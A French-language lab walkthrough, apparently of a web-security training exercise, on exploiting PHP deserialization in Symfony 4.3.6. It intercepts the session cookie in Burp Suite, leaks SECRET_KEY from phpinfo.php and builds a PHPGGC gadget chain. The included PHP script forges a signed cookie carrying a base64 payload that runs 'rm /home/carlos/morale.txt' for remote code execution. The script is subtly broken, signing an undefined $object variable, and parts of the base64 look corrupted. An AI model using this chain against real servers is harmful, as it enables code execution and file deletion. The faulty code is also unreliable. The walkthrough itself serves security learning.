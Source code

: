 # PHP deserialization with pre-built gadget chain
- En informatique, la sérialisation est le codage d'une information sous la forme d'une suite d'informations plus petites pour, par exemple, sa sauvegarde ou son transport sur le réseau. Ce qu'on va faire là c'est l'inverse de ce procédé. On va décoder des informations appartenant au système Symfonie.<br/>
## Exploitation
- En premier temps je lance Burpsuite et je le laisse tourner en arrière-plan pendant que je fais ma prochaine manipulation.<br/>
- Ensuite je me login pour générer des requêtes. L'énnonce nous indique que le login par défaut est "wiener" et "peter".<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/770030149490966548/unknown.png"/><br/><br/>
- Je check l'historique des requêtes et je sélectionne l'index où le procédé du login a été sérialisé.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/770031231060017192/unknown.png?width=1195&height=890"/><br/><br/>
- Ici on constate que le token de la session "Wiener:Peter" a été encodé en URL. Par conséquent j'envoie la partie codée vers le décodeur de Burpsuite.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/770032331141677066/unknown.png"/><br/><br/>
- Je décode en URL et hop, la section est plus claire.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/770033158891503656/unknown.png"/><br/><br/>
- On voit qu'il y a une partie codée en base64, je la décode.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/770033590125199370/unknown.png"/><br/><br/>
- Passons, je vais garder tout ça pour plus tard. Ce qui m'intéresse maintenant c'est de savoir sous quel framework est utilisé par le serveur-web.<br/>
- Pour ce faire j'envoie la requête vers le repeater et je supprime la partie "7D" du % qui est en réalité une accolade mais encodé en URL pour par conséquent générer une erreur par le framework utilisé.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/770310427426684979/unknown.png"/><br/><br/>
- On sait maintenant que le framework Symfonie de la version 4.3.6 est utilisé.<br/>
- Maintenant on check les ressources du site-web pour trouver le fichier PHP de configuration.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/770311153867554927/unknown.png"/><br/><br/>
- Le fichier phpinfo.php existe donc je le renvoie vers le repeater.<br/>
- Il me faut le SECRET_KEY pour créer mon gadget donc je cherche la keyword et je tombe sur ça.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/770312787452493834/unknown.png?width=1095&height=630"/><br/><br/>
- Maintenant je passe au développement du gadget chain.<br/>
```PHP
<?php 

	$rce = "";

	$secretKey = "7sbqv3xwfjipv4gmsofrqxlj4dcqr5dl";
	
	echo $payload = urlencode('{"token":"' . $rce . '", "sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');

?>
```
<br/>
- Pour créer l'object (RCE) qu'on voudra faire exécuter au serveur-web. Je fais l'usage de PHPGGC, mais qu'est-ce que c'est au juste ?<br/>
- PHPGGC est une bibliothèque de payloads unserialize() et un outil qui les génère. Lorsqu'il y a une désérialisation sur un site Web dont vous n'avez pas le code, ou simplement lorsque vous essayez de créer un exploit, cet outil vous permet de générer la payload sans avoir à passer par les étapes fastidieuses de recherche de gadgets et de combinaison. Il peut être vu comme l'équivalent de ysoserial ou même frohoff, mais ce pour le langage PHP. Actuellement, l'outil prend en charge les frameworks: CodeIgniter4, Doctrine, Drupal7, Guzzle, Laravel, Magento, Monolog, Phalcon, Podio, Slim, SwiftMailer, Symfony, Wordpress, Yii et ZendFramework.<br/>
- La source se trouve ici : https://github.com/ambionics/phpggc.<br/>
- En faisant attention, on a pu voir que le serveur-web utilisait le framework Symfony donc ça tombe bien vu que PHPGGC accepte ce framework.<br/>
- La version du framework était 4.3.6.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/770318095209725952/unknown.png"/><br/><br/>
- L'énoncé nous dit qu'on doit supprimer le fichier morale.txt qui se trouve dans le répertoire "/home/carlos".<br/>
- J'ai plus qu'à générer la payload en ajoutant la commande de supprésion de fichier tout en implémentant la payload en base64.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/770319551245582336/unknown.png"/><br/><br/>
- Pour que le résultat soit en une ligne faites "base64 -w 0".<br/><br/>
```PHP
<?php 

	$rce = 'Tzo0NzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxUYWdBd2FyZUFkYXB0ZXIiOjI6e3M6NTc6IgBT
eW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXFRhZ0F3YXJlQWRhcHRlcgBkZWZlcnJlZCI7YToxOntpOjA7
TzozMzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQ2FjaGVJdGVtIjoyOntzOjExOiIAKgBwb29sSGFzaCI7aToxO3M
6TI6IgAqAGlubmVySXRlbSI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO319czo1MzoiAFN5bWZvbnl
cQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcVGFnQXdhcmVBZGFwdGVyAHBvb2wiO086NDQ6IlN5bWZvbnlcQ29tcG9uZW
50XENhYhlXEFkYXB0ZXJcUHJveHlBZGFwdGVyIjoyOntzOjU0OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcH
RlclxQcm94eUFkYXB0ZXIAcG9vbEhhc2giO2k6MTtzOjU4OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlc
lxQcm94eUFkYXB0ZXIAc2V0SW5uZXJJdGVtIjtzOjQ6ImV4ZWMiO319Cg==';

	$secretKey = "7sbqv3xwfjipv4gmsofrqxlj4dcqr5dl";
	
	echo $payload = urlencode('{"token":"' . $rce . '", "sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');

?>
```
<br/>
- Notre gadget chain est enfin terminé, maintenant on fait exécuter le fichier .php, qu'importe le serveur, personnellement je l'héberge dans mon réseau local.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/770322237214818304/unknown.png?width=1440&height=394"/><br/><br/>
- Hop, on a notre gadget chain. Pour la mettre en oeuvre on a plus qu'à C/C notre payload dans l'index qu'on a redirigé vers le repeater et on a notre RCE ;].<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/770323225527582750/unknown.png?width=921&height=630"/><br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/770323394004123648/unknown.png"/>
